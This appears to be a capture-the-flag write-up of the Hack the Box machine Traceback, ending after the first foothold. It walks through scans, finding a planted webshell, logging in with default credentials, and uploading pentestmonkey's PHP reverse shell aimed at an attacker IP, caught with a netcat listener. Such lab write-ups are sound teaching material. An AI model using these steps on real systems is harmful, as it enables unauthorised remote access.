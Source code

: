## WORK IN PROGRESS

![traceback](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/traceback.jpg)

## Enumeration
\
Start with a detailed nmap scan:
```
nmap -sC -sV -Pn -p- 10.10.10.181

Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-14 16:57 EDT
Nmap scan report for 10.10.10.181
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp filtered http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/$
Nmap done: 1 IP address (1 host up) scanned in 74.85 seconds
</div>
```
\
Lets check out the webserver in a browser:
\
```
http://10.10.10.181/
```
![webserver](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webserver.JPG)

The webserver landing page states there is a backdoor somewhere.  Let's enumerate further with gobuster:

```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/14 17:00:26 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.asp (Status: 403)
/.hta (Status: 403)
/.hta.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.asp (Status: 403)
/.htpasswd.php (Status: 403)
/.hta.asp (Status: 403)
/.hta.php (Status: 403)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2020/03/14 17:00:54 Finished
=====================================================
```

Nothing Interesting here.  Lets try nikto:

```
nikto -h 10.10.10.181:80


- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.181
+ Target Hostname:    10.10.10.181
+ Target Port:        80
+ Start Time:         2020-03-14 17:01:06 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 459, size: 5911796d5b788, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  17 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-03-14 17:14:14 (GMT-4) (788 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Again nothing very interesting.  Lets dig into the landing page.  It looks like the page was created by someone with the handle Xh4H.  I did some googling and found the users Github page with a list of webshells he likes to use:

```
https://github.com/Xh4H/Web-Shells
```
![webshells](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webshells.JPG)

I then combined these into a wordlist to be used with gobuster:
```
root@an0nym0us3:~/HTB/Traceback# cat webshell_list 
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Now run gobuster against the webserver using the new wordlist:
```
gobuster -w webshell_list -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
        [+] Wordlist     : webshell_list
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/15 22:31:33 Starting gobuster
=====================================================
/smevk.php (Status: 200)
=====================================================
2020/03/15 22:31:38 Finished
=====================================================
```

Looks like there is a page using one of the web shells.  Lets naviagte to it in the web browser:
```
http://10.10.10.181/smevk.php
```
![smevk](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/smevk.JPG)

I tried the credentials admin:admin and was able to login:

![portal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/portal.JPG)

## Exploitation

Looks like we can upload a reverse php shell to this location.  


Lets upload the [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey to the webserver after we change the ip address and port to our attacking machine:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.224';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Now that our reverse shell is on the server, let set up a netcat listener to catch a reverse shell:

```
nc -nlvp 12345
```

Now execute the reverse shell using curl:
```
curl http://10.10.10.181/php-reverse-shell.php
```

And we get a reverse shell as the user webadmin:
```
root@an0nym0us3:~/HTB/Traceback# nc -nlvp 12345
listening on [any] 12345 ...
connect to [10.10.14.146] from (UNKNOWN) [10.10.10.181] 40458
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:01:58 up 2 min,  0 users,  load average: 0.43, 0.24, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
/bin/sh: 0: can't access tty; job control turned off
```
First lets get an interactive bash shell:
```
$ bash -i
bash: cannot set terminal process group (521): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/$
```

Lets see what other users are on the machine:
```
webadmin@traceback:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root     root     4096 Aug 25  2019 .
drwxr-xr-x 22 root     root     4096 Aug 25  2019 ..
drwxr-x---  5 sysadmin sysadmin 4096 Mar 16 03:53 sysadmin
drwxr-x---  5 webadmin sysadmin 4096 Mar 16 18:03 webadmin
```

Ok now lets see what is our home directory:
```
webadmin@traceback:/home/webadmin$ ls -la
ls -la
total 48
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 18:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

No user.txt file.  Look at the note.txt:
```
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```







